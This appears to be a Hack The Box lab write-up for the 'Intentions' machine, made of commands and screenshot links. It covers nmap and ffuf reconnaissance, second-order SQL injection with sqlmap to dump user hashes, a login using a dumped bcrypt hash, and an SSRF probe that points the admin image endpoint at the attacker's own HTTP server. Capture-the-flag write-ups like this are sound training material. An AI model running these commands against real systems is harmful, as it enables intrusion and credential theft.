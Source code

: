 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)

![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)

![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)

![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)


```
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
```
![image](https://github.com/regarmulia/HTB/assets/33616880/230307ac-31be-47bc-9385-19d400791dd8)


```
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0fa022ca-bc8b-4cfb-9d89-05da8947f30d)


```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a8a78134-9bdc-4b0b-9bcd-75725f2578f4)


```
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94443e9d-fda1-424e-aa75-2bc33dbccf6e)

![image](https://github.com/regarmulia/HTB/assets/33616880/91adcde2-ab47-4d10-8890-016e7d0e6534)


```
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a740f795-07cd-49c5-b0fa-4cba7ec0a070)

![image](https://github.com/regarmulia/HTB/assets/33616880/50514396-8dea-43e8-8654-ee351d81958b)


```
http://10.10.11.220/
http://intentions.htb/api/v2/auth/login
Edited: v2, hash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20c9ec85-1a6a-4f92-b883-011609a50140)

![image](https://github.com/regarmulia/HTB/assets/33616880/9bde9358-3c79-4186-9cbc-63ebb13ec344)

![image](https://github.com/regarmulia/HTB/assets/33616880/ce76950b-7767-47dd-a328-7d7953ee15f9)


```
http://intentions.htb/admin#/
http://intentions.htb/api/v2/admin/image/modify
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0b6871de-0e54-44c1-9d14-27943f81f53b)

![image](https://github.com/regarmulia/HTB/assets/33616880/788c8136-6a8f-4715-95b9-e558c5b1a819)

![image](https://github.com/regarmulia/HTB/assets/33616880/f2feecb3-45da-43b6-b7b7-2d9585cba47f)


```
python3 -m http.server 80
http://intentions.htb/api/v2/admin/image/modify
"path":"http://10.10.14.6/test”
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7446d685-b13d-437d-b177-a34ce4d105a0)


![image](https://github.com/regarmulia/HTB/assets/33616880/36a9081f-c32a-400f-b322-618f52ac3216)
